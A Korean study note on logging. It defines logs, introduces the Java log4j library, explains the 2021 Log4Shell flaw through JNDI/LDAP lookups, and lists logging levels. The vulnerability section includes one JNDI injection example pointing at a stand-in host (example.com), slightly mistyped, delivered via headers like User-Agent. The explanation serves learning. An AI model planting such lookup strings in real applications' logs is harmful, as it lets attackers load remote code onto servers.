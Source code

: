 **⏩ 개념**

> 로그(Log)란 프로그램 개발이나 운영 시 발생하는 문제점을 추적하거나 운영 상태를 모니터링하기 위한 텍스트이다. <br><br>



**⏩ log4j**

보통 log4j 라이브러리를 활용하여 로그를 저장한다.

log4j란 Java 기반의 로깅 유틸리티로, Apache에서 만든 오픈소스 라이브러리다. 

Log for Java라는 뜻으로 Jakarta-project에서 Java를 위한 프로젝트 중 하나로 처음부터 Java의 예외를 처리하기 위해 설계되었다.

프로그램 실행 시 자동으로 지정한 경로에 로그를 저장해주는 기능을 한다. <br>

***+) log4j 취약점 ::  2021년 12월***

우선 이 취약점은 **JNDI**와 **LDAP**를 이용한다. **JNDI**는 **Java Naming and Directory Interface**의 약자로 1990년대 후반부터 Java에 추가된 인터페이스이다. Java 프로그램이 **디렉토리**를 통해 **데이터**(Java 객체 형태)를 찾을 수 있도록 하는 디렉토리 서비스이다.

JNDI는 이러한 디렉토리 서비스를 위해 **다양한 인터페이스**가 존재하는데 그 중 하나가 **LDAP**이다. 이 LDAP가 이번 취약점에 가장 중요한 포인트이다.

Java 프로그램들은 앞서 말한 JNDI와 LDAP를 통해 Java 객체를 찾을 수 있다. 예시로 URL ldap://localhost:389/o=JNDITutorial을 접속한다면 LDAP 서버에서 JNDITutorial 객체를 찾을 수 있는 것이다.

이러한 접근 인터페이스가 이번 사태에 치명적이게 된 이유는, Log4j에는 편리하게 사용하기 위해 ${prefix:name} 형식으로 **Java 객체를 볼 수 있게 하는 문법**이 존재하기 때문이다. 예를 들어 **${java:version}은 현재 실행 중인 Java 버전**을 볼 수 있게 한다.

이런 문법은 **로그가 기록될 때도 사용이 가능**했고, 결국 해커가 **로그에 기록되는 곳을 찾아 ${jndi:sndi:snd://example.com/a}과 같은 값을 추가**하기만 하면 **취약점을 이용**할 수 있는 것이다. 이 값을 넣는 방법은 **User-Agent와 같은 일반적인 HTTP 헤더**일 수도 있고 여러가지 방법이 있다.

즉, 로그가 기록되는 곳을 찾아 값을 추가하면 외부 리소스를 다운받을 주소가 공격자의 서버가 되기 때문에 아주 손쉽게 !! 악성코드가 침투하는 것이다. <br><br>


**⏩ logging level**

- **FATAL**
    
    FATAL 로그는 아주 심각한 에러가 발생한 상태이다. 시스템적으로 심각한 문제가 발생해서 어플리케이션 작동이 불가능할 경우를 뜻한다.
    

- **ERROR**
    
    ERROR 로그는 프로그램 동작에 큰 문제가 발생했다는 것으로 즉시 문제를 조사해야 하는 수준이다.
    
    `예) DB를 사용할 수 없는 상태, 중요 에러가 나오는 상황`
    

- **WARN**
    
    WARN 로그는 주의해야 하지만, 프로세스는 계속 진행되는 상태를 말한다. 하지만 WARN 상태에서도 아래 2가지 문제가 발생하면 프로세스가 종료된다.
    
    - 명확한 문제 : 현재 데이터를 사용 불가, 캐시값 사용 등
    - 잠재적 문제 : 개발 모드로 프로그램 시작, 관리자 콘솔 비밀번호가 보호되지 않고 접속 등
    
- **INFO**
    
    중요한 비즈니스 프로세스가 시작될 때와 종료될 때를 알려주는 로그를 말한다.
    
    `예) ~가 ~를 실행했음`
    
- **DEBUG**
    
    개발자가 기록할 가치가 있는 정보를 남기기 위해 사용하는 레벨의 로그이다.
    

DEBUG > INFO > WARN > ERROR > FATAL 순으로 로그가 찍힌다. <br><br>


**⏩ 참고**

[https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104)

[https://pig-programming.tistory.com/51](https://pig-programming.tistory.com/51)

[https://mdj1234.tistory.com/63](https://mdj1234.tistory.com/63)
